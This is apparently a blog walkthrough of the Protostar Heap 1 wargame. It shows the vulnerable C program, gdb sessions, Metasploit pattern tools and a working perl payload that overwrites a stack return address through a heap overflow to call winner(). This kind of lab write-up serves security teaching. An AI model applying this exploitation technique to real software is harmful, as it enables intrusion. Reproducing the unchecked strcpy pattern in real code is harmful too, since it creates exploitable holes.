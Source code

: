 ```yaml
---
title: "Exploit Exercises - Protostar Heap 1"
date: "2012-01-12T18:28:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
aliases:
 - "/2012/01/12/exploit-exercises-protostar-heap-1.html"
---
```


[This](http://exploit-exercises.com/protostar/heap1) challenge was different for me. The previous heap challenge was easy to pretend it was just a simple stack overflow.  This one worked very different, and brought some different challenges with it. 

<!-- more -->

You first start out with the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
 int priority;
 char *name;
};

void winner()
{
 printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
 struct internet *i1, *i2, *i3;

 i1 = malloc(sizeof(struct internet));
 i1->priority = 1;
 i1->name = malloc(8);

 i2 = malloc(sizeof(struct internet));
 i2->priority = 2;
 i2->name = malloc(8);

 strcpy(i1->name, argv[1]);
 strcpy(i2->name, argv[2]);

 printf("and that's a wrap folks!\n");
}
```

It's quite easy to see where the heap overflow would occur.  The code is allocating 8 bytes of space for the "name" field in memory.  However, it's never checking if the arguments are over 8 bytes long. 

After tinkering for a bit, I found that if you passed strings that were too long, you could get strcpy to try overwriting other memory spaces than it was supposed to.  GDB would fail on the lines of strcpy with weird addresses.  So I started there. 

First, I figured I needed to know the offset for the first argument, to know which exact byte it was using as a copy destination.  Just like in stack overflows, I used the [Metasploit Framework](http://www.metasploit.com) to generate a unique string: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then fed that string into the first argument, and passed a test value of "BBBBBBBB" as the second argument. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB
Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x37614136 <Address 0x37614136 out of bounds>,
    src=0xbffff99e "BBBBBBBB") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

I used the [Metasploit Framework](http://www.metasploit.com) again to get me the offset using the value in the strcpy dest field. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37614136
20
```

So what I had learned here, is if I overflowed the "name" field of the struct with 20 bytes instead of 8, I could then control the destination of the copy for the second strcpy command.  It would copy whatever the second argument was, into any memory space I wanted.  But I needed to control flow of the program to get "winner()" to execute.  Somehow I needed to get the address of "winner()" into the EIP.  My thought on that, was that since when you call a program or function, it puts the return address in the stack, that maybe I could overwrite that return address, and instead of exiting gracefully (because it was the main function), it would put my address into the EIP and run it.  The first step with that was finding the location of that return address in the stack. 

I added a breakpoint to the main function, so I could get the initial memory values once inside that function. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) break main
Breakpoint 1 at 0x80484c2: file heap1/heap1.c, line 23.
```

I then ran the program with dummy data, which made me hit my breakpoint. 

```
(gdb) run asdf asdf
Starting program: /opt/protostar/bin/heap1 asdf asdf

Breakpoint 1, main (argc=3, argv=0xbffff864) at heap1/heap1.c:23
23      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
```

From this point, I wanted to look at all the registers, but focus in on the esp and ebp. 

```
(gdb) i r
eax            0xbffff864       -1073743772
ecx            0x7825cdc2       2015743426
edx            0x3      3
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0xbffff7b8       0xbffff7b8
esi            0x0      0
edi            0x0      0
eip            0x80484c2        0x80484c2 <main+9>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

The important parts here, are that the top of the stack is at 0xbffff790 and the bottom at 0xbffff7b8.  So I pulled up all the memory inbetween those two addresses.  I expected to see 0x00000000 at the end, to signify that it was the end of the function.  And in the addresses before that, one would be the return address. 

```
(gdb) x/10x $esp
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048580      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804858b      0xb7fd7ff4
0xbffff7b0:     0x08048580      0x00000000
```

For now, I removed my original breakpoint, so that execution wouldn't get paused. 

```
(gdb) delete 1
```

I played around with the different addresses in this 0xbffff790-0xbffff7b8 range, and found the address 0xbffff7ac to work out. 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
and that's a wrap folks!

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

So it appears that it wasn't the byte right before the 0x00000000, but was actually 2 bytes before it.  I was now controlling the EIP.  The last step would be to find the address of the winner() function, to get it called. 

```
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
```

This was fairly trivial to do.  So I built up the string with the proper return address and winner() address: 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and that's a wrap folks!
and we have a winner @ 1326098464

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

It looks like it did execute winner() successfully.  It may not have ended the program properly, but we got our execution.  Just to make sure that it'd work outside of gdb, I tried it again on the direct program. 

```
user@protostar:/opt/protostar/bin$ ./heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and we have a winner @ 1326098505
Segmentation fault
```

There you have it.  The execution was changed to execute where originally not intended.
